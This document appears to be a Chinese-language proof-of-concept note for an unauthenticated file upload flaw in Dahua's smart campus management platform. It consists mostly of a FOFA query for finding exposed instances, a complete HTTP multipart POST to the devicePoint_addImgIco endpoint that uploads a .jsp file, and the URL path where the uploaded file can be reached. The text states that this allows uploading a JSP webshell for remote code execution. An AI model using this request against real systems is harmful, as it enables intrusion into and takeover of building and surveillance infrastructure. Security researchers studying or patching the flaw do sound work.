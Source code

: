# 大华智慧园区综合管理平台hasSubsystem存在文件上传漏洞

大华智慧园区综合管理平台hasSubsystem存在文件上传漏洞，未经授权的攻击者可以上传恶意Webshell的JSP文件，可以进行RCE利用。

## fofa

```javascript
app="dahua-智慧园区综合管理平台"
```

## poc

```javascript
POST /emap/devicePoint_addImgIco?hasSubsystem=true HTTP/1.1
Content-Type: multipart/form-data; boundary=A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT
User-Agent: Java/1.8.0_345
Host: 
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Length: 229
Connection: close

--A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT
Content-Disposition: form-data; name="upload"; filename="1.jsp"
Content-Type: application/octet-stream
Content-Transfer-Encoding: binary

123456
--A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT--
```

![image-20241008142600054](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410081426265.png)

文件路径 `http://ip:port/upload/emap/society_new/`+文件名
